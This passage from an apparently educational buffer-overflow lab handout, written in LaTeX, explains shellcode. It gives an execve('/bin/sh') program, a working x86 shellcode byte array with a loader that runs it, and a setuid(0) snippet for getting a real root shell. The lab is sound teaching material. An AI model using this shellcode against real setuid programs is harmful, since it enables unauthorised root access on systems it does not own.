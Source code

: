 \subsection{Shellcode}
Before you start the attack, you need a shellcode. A shellcode is the code to
launch a shell. It has to be loaded into the memory so that we can force the
vulnerable program to jump to it. Consider the following program:

\begin{verbatim}
#include <stdio.h>

int main( ) {
   char *name[2];

   name[0] = ``/bin/sh'';
   name[1] = NULL;
   execve(name[0], name, NULL);
}
\end{verbatim}


The shellcode that we use is just the assembly version of the above program.
The following program shows you how to launch a shell by executing 
a shellcode stored in a buffer.
Please compile and run the following code, and see whether a
shell is invoked. 

\begin{verbatim}
/* call_shellcode.c  */

/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"         /* Line 1:  xorl    %eax,%eax              */
  "\x50"             /* Line 2:  pushl   %eax                   */
  "\x68""//sh"       /* Line 3:  pushl   $0x68732f2f            */
  "\x68""/bin"       /* Line 4:  pushl   $0x6e69622f            */
  "\x89\xe3"         /* Line 5:  movl    %esp,%ebx              */
  "\x50"             /* Line 6:  pushl   %eax                   */
  "\x53"             /* Line 7:  pushl   %ebx                   */
  "\x89\xe1"         /* Line 8:  movl    %esp,%ecx              */
  "\x99"             /* Line 9:  cdq                            */
  "\xb0\x0b"         /* Line 10: movb    $0x0b,%al              */
  "\xcd\x80"         /* Line 11: int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
} 
\end{verbatim}
\textbf{Note:} In this lab we have relaced the {\tt bin/sh} program
with an older insecure shell that will inherit the setuid permissions
assocated with the {\tt stack} program.  Modern shells will use the
process real uid as their effective id, thereby making it more difficult
to obtain root shells from setuid programs.
However, more sophisticated shell code can run the following program to 
turn the real user id to {\tt root}. This way, you would have a real {\tt root} process.
\begin{verbatim}
  void main()
  { 
    setuid(0);  system("/bin/sh");
  }
\end{verbatim}
\noindent For this lab, we'll use the simpler shell code and and insecure /bin/sh program.

